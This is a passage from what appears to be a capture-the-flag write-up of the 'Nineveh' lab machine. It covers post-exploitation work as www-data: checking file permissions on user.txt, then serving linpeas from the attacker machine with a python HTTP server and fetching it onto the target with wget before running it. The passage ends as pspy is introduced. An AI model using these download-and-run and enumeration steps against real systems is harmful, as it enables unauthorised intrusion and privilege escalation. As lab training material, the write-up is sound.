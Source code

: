 ```
cat: user.txt: Permission denied

```

So, I viewed the permissions of `user.txt` file
```
www-data@nineveh:/var/www/html/department$ ls -la /home/amrois/         
total 32
drwxr-xr-x 4 amrois amrois 4096 Jul  3  2017 .
drwxr-xr-x 3 root   root   4096 Jul  2  2017 ..
-rw------- 1 amrois amrois    0 Jul  2  2017 .bash_history
-rw-r--r-- 1 amrois amrois  220 Jul  2  2017 .bash_logout
-rw-r--r-- 1 amrois amrois 3765 Jul  2  2017 .bashrc
drwx------ 2 amrois amrois 4096 Jul  3  2017 .cache
-rw-r--r-- 1 amrois amrois  655 Jul  2  2017 .profile
drwxr-xr-x 2 amrois amrois 4096 Jul  2  2017 .ssh
-rw------- 1 amrois amrois   33 Jul  2  2017 user.txt
```

We’re currently running as `www-data`, so we don’t have rights to read the file. We need to escalate our user privileges.


## Privilege Escalation
I started the priv-esc process by transferring `linpeas` to the victim machine

In the attack machine, I hosted a server in the same directory that `linpeas` resides

```python
python3 -m http.server 5555
```

Then in the target machine, I changed to `/tmp` directory where I had write privileges and downloaded `linpeas`

```
cd \tmp
wget http://10.10.14.6:5555/linpeas.sh
```

Gave it execute privileges and ran the script
```
chmod +x linpeas.sh
./linpeas.sh
```

Of all the output that linpeas was able to pull off, only one thing that stood out was this. 


![nine-1](https://user-images.githubusercontent.com/87711310/213629045-93c63902-55f1-485d-a4fb-e2ee7bf7a9fb.png)

In Nmap scan, port `22` was not reported to be open, however, `linpeas` reported it as listening on the localhost. I’m wasn't sure what to do with this piece of information but I kept it at the back of my mind in case I don’t find any other way to escalate privileges.

Then I used `pspy` to further enumerate the machine to find and monitor linux processes without root permissions
